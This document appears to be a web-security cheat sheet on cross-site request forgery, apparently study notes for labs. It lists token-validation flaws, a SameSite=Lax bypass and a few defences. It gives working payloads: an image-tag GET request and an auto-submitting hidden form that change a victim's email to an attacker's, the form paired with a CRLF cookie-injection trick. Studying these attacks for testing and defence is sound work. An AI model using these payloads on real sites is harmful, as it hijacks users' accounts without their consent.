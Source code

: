 # ⭕ Cross-site request forgery (CSRF)

Allows an attacker to induce users to perform actions that they do not intend to perform

### <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:orange;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control

### <mark style="color:orange;">GET method</mark>

**Example**

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.\
  <mark style="color:green;">**Example**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SasmeSite=Lax** bypass via method override. Change **POST** method to **Get** with **"\_method"** parameter. Example\
  &#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [ ] CSRF tokens
* [ ] HTTP cookie header (csrf-key)
* [ ] Captcha
* [ ] HTTP Referer header
